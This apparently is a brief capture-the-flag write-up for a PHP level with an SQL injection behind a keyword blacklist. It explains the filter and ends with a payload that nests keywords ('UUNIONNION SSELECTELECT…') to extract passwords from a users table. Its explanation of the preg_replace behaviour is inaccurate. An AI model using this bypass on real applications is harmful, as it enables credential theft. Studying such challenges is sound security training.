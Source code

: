 # level02:

## analysis:

we can see in this script that we still have our sqlinjection but our input is getting filtred with ```$searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');``` and if it matches **$searchWords** it get replaced with an empty string

## vulnerability:

**preg_replace()** will only replace the first occurence of the filtred input it can easly be bypassed

## exploitation:

![](try.png)

it's obvious now payload is ```1 UUNIONNION SSELECTELECT 0, password FFROMROM users LIMIT 1;```
